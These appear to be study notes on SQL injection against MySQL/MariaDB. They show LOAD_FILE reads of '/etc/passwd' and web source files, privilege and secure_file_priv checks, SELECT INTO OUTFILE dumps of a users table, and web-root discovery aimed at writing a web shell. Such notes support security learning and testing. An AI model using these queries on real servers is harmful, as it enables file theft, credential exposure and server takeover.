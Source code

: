 - **FILE** privilege - enable to read files and potentially write files

3. LOAD_FILE

- LOAD_FILE(file_name) - used in MariaDB/MySQL to read data from files
- can read only if OS give enough privileges to read
```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/var/www/html/index.php')
```

## READ FILES

- can write a web shell on the remote server and modern DBMSes disable file-write by default
- to write files to the back-end server using a MySQL databases, require 3 things :
	1. User with `FILE` privilege enabled
	2. MySQL global `secure_file_priv` variable not enable
	3. Write access to the location we want to write to on the back-end server

1. check `FILE` privilege as above
```sql
SELECT grantee, privilege_type FROM INFORMATION_SCHEMA.user_privileges;
```

2. check `secure_file_priv` variable enable or not

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
- `secure_file_priv` value is empty -> we can write/read files to any location

### SELECT INTO OUTFILE

- basic function
```sql
SELECT * FROM users INTO OUTFILE '/tmp/credentials';
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
- advanced file exports utilize `FROM_BASE64("base64_data")` to be able to write long/advanced files, including binary data

```sql
SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt';
```

- to write a web shell, we must know the base web directory for the web server (web root)
- to find web root, use `LOAD_FILE` to read server configuration at 
	- `/etc/apache2/apache2.conf` - for Apache configuration
	- `/etc/nginx/nginx.conf`
	- `%WinDir%\System32\Inetsrv\Config\ApplicationHost.conf` for IIS

- other possible web roots
```
/var/www/html/
/var/www/
/var/www/sites/
/var/www/public/
/var/www/public_html/
/var/www/html/default/
/srv/www/
/srv/www/html/
/srv/www/sites/
/home/www/
/home/httpd/
/home/$USER/public_html/
/home/$USER/www/
```
```
c:\inetpub\wwwroot\
```
